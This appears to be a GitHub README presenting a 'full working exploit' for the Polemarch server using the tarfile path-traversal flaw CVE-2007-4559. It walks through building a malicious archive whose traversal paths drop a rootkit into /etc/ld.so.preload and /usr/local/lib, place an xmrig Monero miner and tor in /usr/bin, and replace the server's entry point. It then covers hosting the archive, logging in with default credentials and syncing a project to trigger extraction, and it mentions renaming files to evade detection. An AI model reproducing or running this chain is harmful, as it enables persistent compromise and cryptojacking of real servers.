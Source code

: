 # CVE-2007-4559 - Polemarch exploit 
Full working exploit for Polemarch server https://www.polemarch.org/, using CVE-2007-4559, allowing:

- Injection of a cryptominer for monero 
- Injection of a rootkit


## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
We want to be able to deploy the following files:

- /usr/local/lib
  - -> **rootkit.so**: library to load
- /etc
  - -> **ld.so.preload**: library to load before any other library
- /opt/polemarch/bin
  - -> **polemarchctl**: infected docker entry point
- /usr/bin
  - -> **xmring**: miner
  - -> **tor**: tor

Note: in the real exploit we would change some names to avoid detection.

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Generate tar with the malware
- Create server hosting the compromised tar files

### Polemarch server
First, deploy the polemarch server (with vagrant or docker):

```bash
$: docker compose build 
$: docker compose up -d
```

And open the web interface at http://localhost:8080

Or with vagrant:

```bash
$: vagrant up
```

And open the web interface at http://localhost:8085

### Generate tar files
The tar files will be generated in the `poc/tar/` folder.

But first, we need to set up all the files for generating the tar correctly.

1. Copy the binaries to the `poc` folder:

```bash
$: cp cryptominer/tor poc/
$: cp crytominer/xmrig poc/
```

2. Generate the rootkit shared library in the `poc/rootkit` folder:

```bash
$(rootkit): make
```

3. Copy the rootkit shared library to the `poc` folder:

```bash
$: cp rootkit/rootkit.so poc/
```

And then we can generate the tar files:

```bash
# Execute tar files generator
$: python3 tar.py
[*] Creating symlink aaaa -> etc/
[*] Creating symlink bbbb -> usr/local/lib/
[*] Creating symlink cccc -> usr/bin/
[*] Creating symlink dddd -> opt/polemarch/bin/
[*] Changing aaaa to ../../../../../../../../../test/aaaa
[*] Changing bbbb to ../../../../../../../../../test/bbbb
[*] Changing cccc to ../../../../../../../../../test/cccc
[*] Changing dddd to ../../../../../../../../../test/dddd
[*] Changing ld.so.preload to ../../../../../../../../../test/aaaa/ld.so.preload
[*] Changing rootkit.so to ../../../../../../../../../test/bbbb/rootkit.so
[*] Changing tor to ../../../../../../../../../test/cccc/tor
[*] Changing xmrig to ../../../../../../../../../test/cccc/xmrig
[*] Changing polemarchctl to ../../../../../../../../../test/dddd/polemarchctl
[*] Removing symlink aaaa
[*] Removing symlink bbbb
[*] Removing symlink cccc
[*] Removing symlink dddd
```

This will generate the following tar files:
- `poc/tar/rootkit.tar.gz`: tar file with the malware

### Server hosting the tar files
Host the tar files, for example with python:
```bash
$: cd poc/tar
$: python -m http.server 3005
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![PROJECT](https://user-images.githubusercontent.com/60936394/206489889-e48ef2fa-3bf8-4df7-b5bf-6c5a6cdec872.png)

"Sync" the project, which will untar untar our compromised tar.

Note: the server hosting IP must be accessible from the docker of virtual machine
